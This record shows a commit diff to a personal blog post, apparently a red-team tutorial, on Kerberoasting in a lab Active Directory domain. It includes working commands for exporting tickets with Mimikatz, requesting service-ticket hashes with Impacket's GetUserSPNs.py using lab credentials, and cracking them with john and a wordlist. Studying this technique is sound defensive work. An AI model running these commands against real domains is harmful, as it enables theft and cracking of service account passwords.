

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md, in a window 1280 px wide and 1400 px high, scrolled down 8237 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-6- Kerberos-Attacks-Kerbroasting.md

````diff
--- a/_posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md
+++ b/_posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md
@@ -84,7 +84,8 @@ download script:https://raw.githubusercontent.com/cyberark/RiskySPN/master/Get-T
 
 <img src="/img/kerberosting/14.PNG" alt="Getting-gz" width="1000" height="200">
 
- ## Mimikatz
+ ## 3-Mimikatz
+SPN discovery
 
 <img src="/img/kerberosting/m1.PNG" alt="Getting-gz" width="1000" height="200">
 
@@ -105,6 +106,8 @@ kerberos::list /export
 
 
 ## kirbi2john.py
+I copied TGS  ticked to my kali machine  and use kirbi2john from john
+
 Convert the Kirbi to Hash
 ```
 kirbi2john.py 3-40a50000-admin@ldap\~domainAD.karim.net\~DomainDnsZones.karim.net-KARIM.NET.kirbi
@@ -113,6 +116,8 @@ kirbi2john.py 3-40a50000-admin@ldap\~domainAD.karim.net\~DomainDnsZones.karim.ne
 <img src="/img/kerberosting/222222.PNG" alt="Getting-gz" width="1000" height="300">
 
 ## GetUserSPNs.py
+I used GetUserSPNs from  impacket collection to discover spn from a remote machine
+
 find user account used as service account
 ```
 python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140
@@ -134,12 +139,14 @@ sudo ntpdate  192.168.128.140
 
 <img src="/img/kerberosting/err2.PNG" alt="Getting-gz" width="1000" height="200">
 
+Dumping ticket hashes
 ```
 python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140 -request-user websvc
 ```
 
 <img src="/img/kerberosting/2.PNG" alt="Getting-gz" width="1000" height="300">
 
+crack hash with john
 ```
 john --wordlist=/usr/share/wordlists/rockyou.txt tgs
 ```
````
Also changed, not shown: other parts of _posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md (+1 -1 lines).
